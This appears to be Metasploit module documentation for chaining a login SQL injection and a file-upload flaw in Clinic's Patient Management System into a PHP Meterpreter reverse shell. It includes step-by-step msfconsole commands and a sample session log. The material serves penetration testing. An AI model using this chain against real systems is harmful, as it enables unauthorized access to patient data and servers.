 ## Vulnerable Application
Clinic Patient's Management System contains SQL injection vulnerability in login section. This module uses the vulnerability
(CVE-2025-3096) to gain unauthorized access to the application. As lateral movement, it uses another vulnerability (CVE-2022-2297) to gain remote code execution.

## Verification Steps

### Vulnerable Application Installation Setup
1. Install Clinic's Patient Management System on your web server.
   - Download the Web Application from [here](https://www.sourcecodester.com/download-code?nid=15453&title=Clinic%27s+Patient+Management+System+in+PHP%2FPDO+Free+Source+Code)

2. Start `msfconsole` and load the exploit module:
```bash
   msfconsole
   use exploit/multi/http/clinic_pms_sqli_to_rce
```

3. Set the required options:
```bash
   set rport <port>
   set rhost <ip>
   set targeturi /pms
```

4. Check if the target is vulnerable:
```bash
   check
```

   If the target is vulnerable, you will see a message indicating that the target is susceptible to the exploit:
```
   [+] <IP> The target is vulnerable.
```

5. Set up the listener for the exploit:
```bash
   set lport <port>
   set lhost <ip>
```

6. Launch the exploit:
```bash
   exploit
```

7. If successful, you will receive a PHP Meterpreter shell.

## Options
- `TARGETURI`: (Required) The base path to the Clinic Patient Management System (default: `/pms`).

## Scenarios

```bash
msf6 exploit(multi/http/clinic_pms_sqli_to_rce) > exploit
[*] Started reverse TCP handler on 192.168.168.128:4444
[*] Logged using SQL injection..
[*] Malicious file uploaded..
[*] Logged out..
[*] Logged using SQL injection..
[*] Sending stage (40004 bytes) to 192.168.168.146
[*] Meterpreter session 1 opened (192.168.168.128:4444 -> 192.168.168.146:52522) at 2025-05-13 13:33:52 +0200

meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 6.8.0-52-generic #53~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Wed Jan 15 19:18:46 UTC 2 x86_64
Meterpreter : php/linux

```

